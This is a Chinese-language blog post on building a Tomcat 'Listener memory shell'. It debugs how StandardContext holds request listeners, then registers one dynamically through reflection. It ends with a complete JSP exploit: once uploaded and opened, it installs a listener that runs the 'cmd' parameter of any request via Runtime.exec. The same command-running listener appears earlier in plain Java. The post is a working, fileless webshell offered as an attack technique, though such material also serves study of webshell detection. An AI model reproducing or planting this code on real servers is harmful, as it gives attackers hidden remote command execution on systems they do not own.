 ```yaml
---
layout: post
date: 2025-5-15
title: "Listener内存马-2"
author: "XinYiSleep"
category: Java
---
```

<h1 id="GT0vV">一.基础信息</h1>

```
    在上一篇文章中我们已经简单的了解了一下Listener了，那么首先能考虑被作为内存马的是ServletRequestListener：对请求对象的初始化和销毁进行监听
说人话就是每次请求的时候就是初始化，请求结束销毁，这一技术主要在Servlet3.0之后，并且呢tomcat7.x及以上才可以用，因为tomcat7.x在支持Servlet3.0，
为了方便调试我们添加包(代码一)，原因很简单你不加根本进不去(图一)。
    懂点的可以先看一下图二。
```

```java
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.100</version>
</dependency>
```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/1.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/0.png)

<h1 id="Djyi0">二.动态注册</h1>

```
我们得知请求任意url的时候会被执行到监听器，首先这个监听器在写入之后需要重启才能生效,那么在实战中
我们不可能去修改代码更不可能重启别人服务，那么就需要动态注册，大致就是分析一下正常的Listener是怎么的一个过程，废话不多说，
首先我们需要创建一个恶意的Listener(代码一),在其中打上断点(图一)，走进StandardContext类中fireRequestInitEvent方法(图二)，
接着一直往上跟看看从哪里获取到了ListenerWeblshell的实例，在第一行getApplicationEventListeners方法中获取到了，那么看看是什么(图三,图四)，
得知他是一个类中的属性的话，那么需要修改他先看看有那么有Setter,发现是有的(图五)，到这里其实就已经结束了，现在我们的目的就是需要通过这个Setter进行动态注册打成目的。
```

```java
package com.example.webshell1;
import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Field;

@WebListener
public class ListenerWeblshell implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("销毁");
    }
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest servletRequest = (HttpServletRequest)sre.getServletRequest();
        String cmd = servletRequest.getParameter("cmd");
        if (cmd!=null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
        
    }
}

```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/2.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/3.5png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/3.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/4.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/5.png)

```
在上面我们得知存在setApplicationEventListeners和addApplicationEventListener都可以修改，
我们先用addApplicationEventListener，现在的问题是如何拿到StandardContext实例，
那我们往上推看看谁调用了StandardContext他是怎么拿到的(图一)，那我们就模拟他就行了问我具体干啥了一切不知道也不需要管他，
(代码一,图二)，那你就要问了，你这是个锤子内存马呀，图二中已经创建一个新的Litsener,你就算添加进去有什么用这不冗余了吗？
而且还需要改java代码你这不是天方夜谭吗？没错下面我们就要想到的攻击面了，如果说存在文件上传的情况下我们是否可以在JSP中进行操作呢？
答案是可以的因为JSP中九大核心内置对象中刚好有request(可以看上一篇文章简单了解一下)，
```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/6.png)

```java
package com.example.webshell1;

import org.apache.catalina.Context;
import org.apache.catalina.connector.Request;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Field;

@WebListener
public class ListenerWeblshell implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("销毁");
    }
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        //拿到StandardContext实例
        Request Reques = (Request)sre.getServletRequest();
        StandardContext context = (StandardContext)Reques.getContext();
        //修改添加我们的Listener
        TestListener testListener = new TestListener();
        context.addApplicationEventListener(testListener);
    }
}
```
![](https://xinyisleep.github.io/img/2025/Webshell/Listener/7.png)

<h1 id="cZYlj">三：完整Listener内存马</h1>

```
首先获取org.apache.catalina.connector.Request的实例，在JSP中request是org.apache.catalina.connector.RequestFacade他实现了HttpServletRequest(图一,图二)，
但是存在一个request属性刚好类型是Request(图三)，通过反射获取request，之后取出org.apache.coyote.Request，
强制转换成StandardContext对象，执行addApplicationListener，完整exp(代码一),访问这个JSP文件之后会添加一个新的Listener到ApplicationEventListener，
重新请求的时候getApplicationEventListeners就已经有我们的Listener了，到这里还是有点绕的可以手动测试看看，要是这都没理解那我也无能为力了，
这已经是手把手了，好了其实还是蛮简单的，下期见(冲冲冲)。

```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/8.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/8.5.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/9.png)

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>


<%!
    public class TestListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
        }
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest servletRequest = (HttpServletRequest)sre.getServletRequest();
            String cmd = servletRequest.getParameter("cmd");
            if (cmd!=null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        }
    }
%>

<%
    //获取org.apache.coyote.Request实例
    //request实际上是org.apache.catalina.connector.RequestFacade他实现了HttpServletRequest
    Field request1 = request.getClass().getDeclaredField("request");
    request1.setAccessible(true);
    //上面获取了request属性取出org.apache.coyote.Request
    Request o = (Request)request1.get(request);
    //强制转换成StandardContext对象，执行addApplicationListener
    StandardContext context = (StandardContext)o.getContext();
    context.addApplicationEventListener(new TestListener());
%>

```



